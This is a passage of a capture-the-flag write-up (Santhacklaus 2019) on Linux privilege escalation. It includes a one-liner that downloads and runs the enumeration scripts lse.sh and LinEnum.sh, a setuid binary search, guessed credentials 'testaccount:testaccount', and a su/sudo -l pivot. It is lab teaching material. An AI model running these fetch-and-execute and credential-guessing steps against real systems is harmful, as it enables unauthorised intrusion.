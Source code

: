 ### 4.1. Informations gathering

At this, we were in possesion of a RCE with `www-data` user. The final objective of the challenge was to obtains root access.

{{< protips "Privilege escalation can be a really huge tasks if you are not well organized. Below, you will find some tools to help you in this tasks. My favorite tool is Gtfobins. This Github page reference usefull informations concerning privilege escalation with linux binaries. " >}}

Here is some usefull tools :

- Enumeration script : https://github.com/diego-treitos/linux-smart-enumeration/
- Other enumeration script : https://raw.githubusercontent.com/rebootuser/LinEnum/
- All you need to know about linux binaries exploitation : https://gtfobins.github.io

Here is a one liner to easily past during your penetration test :

```bash
curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh;chmod 700 lse.sh; ./lse.sh; curl "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh" -Lo LinEnum.sh; chmod 700 LinEnum.sh; ./LinEnum.sh -r report.txt -e /var/tmp/ -t
```

In our privilege escalation researches, we localised strange binarie with setuid bit : `/opt/gather_todos_wrapper`.

```bash
www-data@081256f7edc3:/ $ find / -user root -perm -4000 -exec ls -ldb {} \;

-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 568032 Dec  5 09:10 /usr/local/bin/sudo
-rwsr-xr-- 1 root messagebus 51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Oct  6 18:18 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /bin/su
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /bin/umount
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /bin/mount
-rwsr-xr-x 1 root root 16672 Dec  5 09:11 /opt/gather_todos_wrapper
```

![](/img/santhacklaus-2019/screen-17.png)

This script permited to guess the account credentials `testaccount:testaccount`


### 4.2. Group privilege escalation

A classical `sudo -l` command permited to find sudo privilege of the `testaccount` user. This account were authorized to execute with `staffteam` group privilege any command.

```bash
www-data@081256f7edc3:/ $ echo testaccount | su - testaccount -c "sudo -l"
User testaccount may run the following commands on 6a7280b6ec79:
    (BASIC : staffteam) NOPASSWD: ALL
```
